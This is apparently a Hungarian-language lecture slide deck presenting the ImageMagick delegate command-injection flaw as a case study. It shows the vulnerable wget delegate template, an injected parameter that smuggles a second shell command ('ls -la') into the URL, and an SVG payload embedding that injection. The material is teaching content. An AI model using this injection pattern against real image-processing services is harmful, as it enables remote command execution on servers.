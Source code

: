 - *Képfeldolgozó program*
- *Sok platform használja (pl PHP és Node.js)*
- *Delegate szolgáltatás nem szűrt megfelelően (külső program futtatása)*
- `"wget" -q -O "%o" "https:%M"` (`%M` a sérülékeny paraméter)
---

### Case Study: ImageMagick

- *Képfeldolgozó program*
- *Sok platform használja (pl PHP és Node.js)*
- *Delegate szolgáltatás nem szűrt megfelelően (külső program futtatása)*
- *`"wget" -q -O "%o" "https:%M"` (`%M` a sérülékeny paraméter)*
- Ha a paraméter `https://example.com";|ls "-la`
---

### Case Study: ImageMagick

- *Képfeldolgozó program*
- *Sok platform használja (pl PHP és Node.js)*
- *Delegate szolgáltatás nem szűrt megfelelően (külső program futtatása)*
- *`"wget" -q -O "%o" "https:%M"` (`%M` a sérülékeny paraméter)*
- *Ha a paraméter `https://example.com";|ls "-la`*
- A futtatott parancs: `"wget" –q –O "%o" "https://example.com";|ls "-la"`
---

### Case Study: ImageMagick

- *Képfeldolgozó program*
- *Sok platform használja (pl PHP és Node.js)*
- *Delegate szolgáltatás nem szűrt megfelelően (külső program futtatása)*
- *`"wget" -q -O "%o" "https:%M"` (`%M` a sérülékeny paraméter)*
- *Ha a paraméter `https://example.com";|ls "-la`*
- *A futtatott parancs: `"wget" –q –O "%o" "https://example.com";|ls "-la"`*
- SVG-be ágyazva:
  ```svg
  push graphic-context
  viewbox 0 0 640 480
  fill 'url(https://example.com/image.jpg";|ls "-la)'
  pop graphic-context
  ```
---